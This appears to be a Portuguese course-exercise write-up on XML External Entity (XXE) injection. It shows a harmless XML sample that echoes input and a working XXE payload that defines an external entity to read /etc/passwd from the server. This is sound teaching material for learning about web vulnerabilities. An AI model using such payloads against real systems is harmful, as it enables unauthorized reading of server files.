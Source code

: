 ## Módulo 01 / Exercício 01 - XXE - Payloads

Ao verificar que um site permite que o usuário insira um conteúdo ou faça o upload de um arquivo no formato XML o atacante certamente irá explorar vulnerabilidades por XXE. 

Com esse script é possível verificar que os dados de entrada são impressos na saída:

    <?xml version="1.0"?>
    <note>
        <to>Bruno</to>
        <from>Destinario</from>
        <heading>Aulas Vulnerabilidades</heading>
        <body>XXE</body>
    </note>

Nesse script aqui é possível verificar ele imprimindo o conteúdo do arquivo /etc/passwd no servidor remoto, conforme solicitado no exercício.

    <?xml version="1.0"?>
    <!DOCTYPE root [
        <!ELEMENT root ANY>
        <!ENTITY xxe SYSTEM 'file:///etc/passwd'>
    ]>
    <root> &xxe; </root>